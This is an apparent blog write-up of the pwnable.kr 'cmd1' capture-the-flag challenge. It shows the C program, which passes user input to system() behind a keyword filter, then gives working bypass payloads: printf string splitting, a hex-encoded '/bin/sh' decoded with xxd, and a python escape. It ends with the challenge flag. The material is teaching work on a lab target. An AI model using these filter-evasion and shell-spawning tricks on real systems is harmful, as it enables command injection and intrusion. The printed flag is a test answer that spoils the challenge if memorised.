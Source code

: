 ```yaml
---
title: "Binary Exploitation | Pwnable.kr - cmd1"
permalink: "binary-exploitation/pwnablekr/:title"
layout: post
---
```


> Challenge description:
>
> Mommy! what is PATH environment in Linux?



```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

The next two challenges (cmd1 and cmd2) are about bypassing input filters to execute a command.

First it changes the `$PATH` environment variable (which contains the paths to executables) to an unknown location, this way we cannot just use for example `echo test`, it should be `/bin/echo test`.

There is more than one solution to this challenge, I will list some of them.

> Notice the difference between single quotes and double quotes in argv:
>
> $ ./test '$(echo abc)' <br>argv[1] = $(echo abc)
>
> $ ./test "$(echo abc)"<br>
> argv[1] = abc
>
> Single quotes pass the command without executing it.<br>Double quotes executes the command then passes its output (cannot pass the filter).

# Solution:

```
cmd1@pwnable:~$ ./cmd1 '$(printf "/bin/cat %s%s" "fl" "ag")'
```

```
cmd1@pwnable:~$ ./cmd1 '$(/bin/echo 2f62696e2f7368 | /usr/bin/xxd -r -p)'  # 2f62696e2f7368 = /bin/sh
$ /bin/cat flag
```

```
cmd1@pwnable:~$ ./cmd1 '$(/usr/bin/python)'
>>> f = open("/tmp/myflag", "w")
>>> f.write(open("flag").read())
>>>
cmd1@pwnable:~$ cat /tmp/myflag
```

Flag: `mommy now I get what PATH environment is for :)`
